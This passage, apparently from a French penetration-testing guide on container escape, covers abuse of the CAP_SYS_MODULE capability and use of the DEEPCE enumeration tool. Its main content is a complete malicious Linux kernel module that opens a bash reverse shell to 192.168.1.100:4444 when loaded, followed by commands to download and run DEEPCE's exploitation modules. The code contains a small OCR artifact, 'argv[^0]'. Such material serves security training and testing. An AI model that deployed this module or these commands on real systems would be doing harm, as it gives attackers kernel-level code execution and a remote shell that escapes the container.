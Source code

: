 ```c
    return 0;
}
```

### CAP\_SYS\_MODULE : Chargement de Modules Noyau Malveillants

La capability `CAP_SYS_MODULE` permet le **chargement de modules noyau arbitraires**, offrant un accès complet au système par l'exécution de code en espace noyau.

```c
// Module noyau malveillant pour reverse shell
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/kmod.h>

static int __init malicious_init(void) {
    char *argv[] = {"/bin/bash", "-c", 
                   "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1", NULL};
    char *envp[] = {"HOME=/", "PATH=/sbin:/bin:/usr/bin", NULL};
    
    // Exécution du reverse shell avec privilèges noyau
    call_usermodehelper(argv[^0], argv, envp, UMH_WAIT_PROC);
    return 0;
}

static void __exit malicious_exit(void) {
    printk(KERN_INFO "Module malveillant déchargé\n");
}

module_init(malicious_init);
module_exit(malicious_exit);
MODULE_LICENSE("GPL");
MODULE_DESCRIPTION("Module d'évasion de conteneur");
```

## Outils Spécialisés pour l'Évasion de Conteneurs

### DEEPCE : Énumération et Exploitation Automatisées

**DEEPCE** (Docker Enumeration, Escalation of Privileges and Container Escapes) constitue l'outil de référence pour l'évaluation automatisée des vulnérabilités d'évasion.

```bash
# Installation et utilisation de DEEPCE
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
chmod +x deepce.sh

# Exécution de l'énumération complète
./deepce.sh

# Modules d'exploitation spécialisés
./deepce.sh -e PRIVILEGED    # Test des conteneurs privilégiés
./deepce.sh -e MOUNT         # Analyse des montages sensibles  
./deepce.sh -e SOCK          # Détection des sockets exposés
./deepce.sh -e CAP           # Audit des capabilities dangereuses
```
